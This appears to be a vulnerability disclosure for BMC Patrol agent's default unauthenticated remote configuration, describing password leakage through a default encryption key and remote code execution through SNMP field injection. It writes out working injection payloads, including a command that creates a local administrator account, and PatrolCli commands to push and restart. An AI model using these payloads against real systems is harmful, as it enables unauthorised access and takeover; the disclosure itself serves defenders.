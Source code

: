 ```yaml
---
title: Vulnerabilities in BMC Patrol's agent remote configuration
---
```


Patrol's [default configuration](https://docs.bmc.com/docs/PATROLAgent/107/securing-patrol-agent-from-the-pconfig-clients-655597337.html) permits unauthenticated remote configuration access and modification:
![config](./Patrol/config.png)

If your organisation uses this default setting, it should be changed ASAP as this makes the agent subject to two unauthenticated vulnerabilities resulting in remote code execution.

Remote secrets leak using Patrol's pconfig (<22.1.00)
-----------------------------------------------------

The configuration is remotely queried using the ```pconfig``` binary. The configuration contains the encrypted password of the local Patrol user:
![get pass](./Patrol/get.png)

All Patrol instances before update 22.1.00 [use a default encryption key](https://gist.github.com/gquere/045638b9959f4b3e119ea01d8d6ff856).

Thus the password of the Patrol account can be decrypted:
![decrypt](./Patrol/decrypt.png)

A valid Patrol account can be used to authenticate to the service and remotely execute code:
![exec](./Patrol/exec.png)

This vulnerability is mitigated in versions >=22.1.00 since the encryption key has been diversified.


Remote code excution using Patrol's pconfig
-------------------------------------------

The agent's configuration can be remotely updated using the ```pconfig``` binary.

Remote code execution can be achieved by injecting commands in the masterAgentName field that is used to start the SNMP service.

For Windows:
```
"/snmp/masterAgentName" = { REPLACE = "cmd /c \"net user test_lol sup3rPASS! /add && net localgroup Administrators test_lol /add\" &&" },
"/snmp/masterAgentDir" = { REPLACE="bin/../../../Windows/system32/" },
```

Do note that the masterAgentDir is relative and depends on Patrol's installation path. Usually this is under C:\BMC.

On Linux systems (according to my old notes, YMMV) it's a different parameter that leads to code execution:
```
"/snmp/masterAgentStartLine" = { REPLACE="/usr/bin/touch /tmp/snmp ; /usr/bin/touch /tmp/snmp2 & #" },
```

The configuration is pushed using the +Reload directive:
```
PatrolCli -host xxx +Reload /tmp/my_config
```

To maximize chances of success, only the new SNMP configuration should be pushed. Remotely overwriting other parts of the configuration may result in an *unrecoverable* remote DoS.

The agent needs to be remotely restarted for the modification to take effect:
```
PatrolCli -host xxx +RESTART
```

Editor response
---------------
According to the editor these are not a vulnerabilities.

Timeline
--------
2021: Vulnerabilities discovered
2023-01: Editor contacted
2023-02: Editor ACK
2023-05: FD

